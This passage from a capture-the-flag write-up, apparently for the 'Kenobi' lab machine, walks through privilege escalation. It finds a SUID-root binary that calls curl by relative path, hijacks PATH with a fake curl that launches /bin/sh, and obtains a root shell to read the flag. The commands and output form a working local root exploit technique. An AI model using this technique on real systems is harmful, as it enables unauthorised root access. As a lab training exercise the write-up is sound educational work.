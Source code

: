 `/usr/bin/menu` looks a little suspicious. Let's see which user is its owner

```
kenobi@kenobi:~$ ls -l /usr/bin/menu

-rwsr-xr-x 1 root root 8880 Sep  4  2019 /usr/bin/menu
```

Root! If we get a shell with this binary we get a root shell!

Let's execute it

```
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```

This is a simple utility script that prints some information about the machine. We can try to see which strings are written inside the binary

```
kenobi@kenobi:~$ strings /usr/bin/menu

[... snip ...]
curl -I localhost
uname -r
ifconfig
[... snip ...]
```

We can see that the `curl` command is executed without an absolute path (it's not using `/usr/bin/curl`). This means that we could falsify `curl` to be `/bin/sh` and with that we can pop a shell as root (remember that `/usr/bin/menu` is executed as root).

```
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl 
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# whoami
root
```

We are root. Let's get the flag

```
# cat /root/root.txt

177b3cd8562289f37382721c[redacted]
```